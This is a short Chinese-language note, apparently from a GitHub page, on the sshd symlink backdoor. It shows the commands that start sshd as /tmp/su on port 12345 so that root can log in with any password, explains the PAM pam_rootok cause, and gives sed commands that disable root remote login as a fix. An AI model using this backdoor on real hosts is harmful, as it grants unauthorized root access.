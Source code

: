 # ssh软连接漏洞
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=12345;
- 在另一台机器上执行：
root@192.168.1.30 -p 12345
随意输入密码即可登陆
只允许命名为su，命名其他尝试登录都不成功
当前测试的系统(centos7 ,debian8, 只要允许root 远程登陆，基本上都可以适用)，端口也可以换成别的
当前解决办法，禁止root 远程登陆
原因是:基于pam认证的，使用了pam中的su，调用的是/etc/pam.d/su,su的认证使用了pam_rootok.so认证模块是认证你的UID是否为0，他会return pam的结果
```
sed -i 's/^PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config || sed -i 's/^#PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
sudo /etc/init.d/sshd restart || sudo systemctl restart sshd
```
